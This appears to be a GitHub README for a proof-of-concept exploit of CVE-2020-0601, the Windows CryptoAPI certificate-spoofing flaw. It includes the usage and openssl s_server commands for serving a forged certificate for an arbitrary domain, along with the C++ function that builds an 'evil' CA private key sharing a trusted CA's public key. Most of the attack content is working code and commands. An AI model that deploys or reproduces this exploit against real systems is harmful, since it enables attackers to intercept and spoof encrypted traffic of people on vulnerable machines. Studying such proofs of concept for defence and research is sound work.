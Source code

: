 # cve-2020-0601_poc

CVE-2020-0601 proof of concept

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/gremwell](https://github.com/gremwell) |
| Url      | [https://github.com/gremwell/cve-2020-0601_poc](https://github.com/gremwell/cve-2020-0601_poc)                                               |
| Stars    | 2                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cryptopp* cve-2020-0601* poc* security* ssl* tls

</details>

## Readme

# Basic Info

The source code of this tool is supposed to help with understanding of CVE-2020-0601 vulnerability discovered in Windows Crypto API, see [CERT's overview](https://kb.cert.org/vuls/id/849224/).

The tool itself can be used to produce a certificate for an arbitrary domain which will be signed by an evil certificate authority. This tool produces evil CA with the same public key as the one provided on command line.

When a web browser of a vulnerable Windows build targets this certificate, it will be considered as the trusted one. Thus allows suitably positioned network-based attacker to intercept victim's traffic.

# Synopsis

Launch the tool providing path to a trusted Windows certificate:
```bash
./cve-2020-0601_poc ~/path/to/USERTrustECCCertificationAuthority.crt
```

In the example above a [USERTrust ECC Certification Authority](http://www.tbs-x509.com/USERTrustECCCertificationAuthority.crt) is used with the following public key:
```
04:1A:AC:54:5A:A9:F9:68:23:E7:7A:D5:24:6F:53:C6:5A:D8:4B:AB:C6:D5:B6:D1:E6:73:71:AE:DD:9C:D6:0C:61:FD:DB:A0:89:03:B8:05:14:EC:57:CE:EE:5D:3F:E2:21:B3:CE:F7:D4:8A:79:E0:A3:83:7E:2D:97:D0:61:C4:F1:99:DC:25:91:63:AB:7F:30:A3:B4:70:E2:C7:A1:33:9C:F3:BF:2E:5C:53:B1:5F:B3:7D:32:7F:8A:34:E3:79:79
```

The tool will save several certificates and keys in its current working directory:
```
test-cve_evil-ca.crt -- evil CA
test-cve_evil-privkey.key -- evil CA's private key in PEM format
test-cve_evil-privkey-pk8.key -- evil CA's private key in PKCS#8 format
test-cve_host-cert.crt -- target host's certificate (example.com by default)
test-cve_host-privkey.key -- target host's private key (example.com by default)
```

To test certificates launch `openssl s_server` as follows and redirect request towards it requests of https://example.com/ from your vulnerable Windows box:
```bash
sudo openssl s_server -cert test-cve_host-cert.crt -key test-cve_host-privkey.key -chainCAfile test-cve_evil-ca.crt -www -accept 443
```

Be sure that the original certificate is cached!

The result should look like this one:
![example.com spoofing](./screen1.png)


# Build

`cmake` is used to generate make file to build this tool. As dependencies the following libraries are needed:
- openssl (> 1.0)
- cryptopp

Building:
```bash
mkdir build
cd build
cmake ..
make
```

# Description

Comprehensive (relatively) description at some point will be added to [Gremwell's website](https://www.gremwell.com/).

Start with looking at `main.cpp` file. It calls various OpenSSL wrappers which are important, but are not related to the vulnerability itself. The most interesting part is in `cve-2020-0601_poc.cpp` file:
```c++
bool craftEvilPrivKey(const char *caPubKeyRaw, size_t caPubKeyRawLen,
                      char *outEvilPrivKeyPKCS8, size_t maxSizePKCS8, size_t *outEvilPrivKeyPKCS8Len,
                      bool doSave, const char *evilPrivKeyFileName)
{
    // load public key of the provided certificate into native CryptoPP type
    DL_Keys_ECDSA<ECP>::PublicKey caPubKey;
    caPubKey.Load(CryptoPP::ArraySource((const CryptoPP::byte *)caPubKeyRaw,
                                         caPubKeyRawLen, true).Ref());

    // generate a private key using the same curve as in the provided CA certificate
    CryptoPP::AutoSeededRandomPool prng;
    DL_Keys_ECDSA<ECP>::PrivateKey privKeyBase;
    privKeyBase.Initialize(prng, caPubKey.GetGroupParameters());

    // get the private key elliptic curve parameters
    CryptoPP::Integer privKeyBaseExp = privKeyBase.GetPrivateExponent();
    ECP privKeyBaseCurve = privKeyBase.GetGroupParameters().GetCurve();
    CryptoPP::Integer privKeyBaseOrder = privKeyBase.GetGroupParameters().GetSubgroupOrder();

    // calculate an inverse value of the private key
    CryptoPP::Integer privKeyInverse = CryptoPP::EuclideanMultiplicativeInverse(privKeyBaseExp, privKeyBaseOrder);
    // produce our custom generator (base point) as a multiplication of the inverse value of our private key
    // and the public key of the provided CA certificate
    ECP::Point caPubKeyQ = caPubKey.GetPublicElement();
    ECP::Point evilG = privKeyBaseCurve.ScalarMultiply(caPubKeyQ, privKeyInverse);

    // create an "evil" private key object using the base private's key exponent and curve but
    // with our "evil" generator (base point)
    DL_Keys_ECDSA<ECP>::PrivateKey evilPrivKey;
    evilPrivKey.Initialize(privKeyBaseCurve, evilG, privKeyBaseOrder, privKeyBaseExp);

    // convert evil private key into PKCS8 format
    CryptoPP::ArraySink evilPrivKeyPKCS8As((CryptoPP::byte *)outEvilPrivKeyPKCS8, maxSizePKCS8);
    evilPrivKey.Save(evilPrivKeyPKCS8As.Ref());
    *outEvilPrivKeyPKCS8Len = evilPrivKeyPKCS8As.TotalPutLength();

    if (doSave) {
        // save it as-is so this can be imported by some tools
        evilPrivKey.Save(CryptoPP::FileSink(evilPrivKeyFileName).Ref());
    }

    // the code below converts the key to DER format
    // however, as we have here our custom curve (not the "named" one), most of the
    // tools are not able to properly import it. thus, leaving this code commented-out
#ifdef SUPPORT_DER_ENCODING
    CryptoPP::ArraySink evilPrivKeyDerAs((CryptoPP::byte *)outEvilPrivKeyDer, maxSizeDer);
    privKeyToDer(evilPrivKey, evilPrivKeyDerAs.Ref());
    *outEvilPrivKeyDerLen = evilPrivKeyDerAs.TotalPutLength();
#endif

    return true;
}
```

Comments here should be quite self-explanatory. :-)

# Acknowledgements

Thanks to [kudelskisecurity blog](https://research.kudelskisecurity.com/2020/01/15/cve-2020-0601-the-chainoffools-attack-explained-with-poc/) and references mentioned there.



## Get the content

```
git clone https://github.com/gremwell/cve-2020-0601_poc
cd cve-2020-0601_poc
```

{% embed url="https://github.com/gremwell/cve-2020-0601_poc" %}

<figure><img src="https://avatars.githubusercontent.com/u/633734?v=4" alt=""><figcaption><p>gremwell</p></figcaption></figure>
